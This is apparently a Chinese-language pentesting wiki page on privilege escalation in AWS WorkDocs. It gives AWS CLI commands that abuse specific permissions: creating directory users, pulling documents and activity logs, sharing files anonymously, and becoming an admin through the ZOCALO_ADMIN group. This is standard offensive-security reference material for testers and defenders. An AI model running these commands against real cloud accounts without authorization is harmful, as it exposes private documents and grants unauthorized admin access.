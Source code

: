 # AWS - WorkDocs权限提升

## WorkDocs

有关WorkDocs的更多信息，请查看：

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

在指定的目录中创建用户，然后您将可以访问WorkDocs和AD：
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

这些文件可能包含敏感信息，请阅读它们：
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

如果您没有权限读取某些内容，您可以直接授予该权限
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

您可以通过将用户设置为组ZOCALO_ADMIN来使其成为管理员。\
要执行此操作，请按照以下说明操作：[https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

使用该用户登录到workdoc，并在`/workdocs/index.html#/admin`中访问管理员面板。

我没有找到通过命令行执行此操作的方法。
